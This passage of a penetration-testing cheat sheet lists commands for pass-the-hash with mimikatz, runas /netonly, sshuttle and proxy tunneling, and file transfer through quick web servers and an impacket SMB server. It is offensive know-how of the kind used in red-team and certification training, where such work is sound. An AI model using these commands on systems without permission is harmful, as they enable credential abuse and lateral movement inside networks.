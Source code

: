 #### Proxychains netonly or overpass the hash
```
runas /netonly /user:<DOMAIN>\<USER> "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
```

#### Browser
- Install FoxyProxy https://getfoxyproxy.org/
- Configure Proxy IP and port, Username and Password.
- NTLM auth: https://offensivedefence.co.uk/posts/ntlm-auth-firefox/

## Other tunneling options
#### sshuttle
```
sshuttle -r <USERNAME>@<TARGET> <RANGE(s) TO TUNNEL> --ssh-cmd 'ssh -i /home/user/Offshore/id_rsa_root_nix01'
sshuttle -r <USERNAME>@<TARGET> <RANGE(s) TO TUNNEL>
```

## File transfers
### Download files
#### Start webservers
```
sudo service apache2 start #files in /var/www/html
sudo python3 -m http.server <PORT> #files in current 
sudo python2 -m SimpleHTTPServer <PORT>
sudo php -S 0.0.0.0:<PORT>
sudo ruby -run -e httpd . -p <PORT>
sudo busybox httpd -f -p <PORT>
```

#### Download file from webserver
```
wget http://<IP>:<PORT>/<FILE>
```

#### SMB Server
```
sudo python3 /opt/oscp/impacket/examples/smbserver.py <SHARE NAME> <PATH>
```

#### Look for files in SMB
```
dir \\<IP>\<SHARE NAME>
```

#### Copy files from SMB
```
copy \\<IP>\<SHARE NAME>\<FILE NAME> <FILE>
```
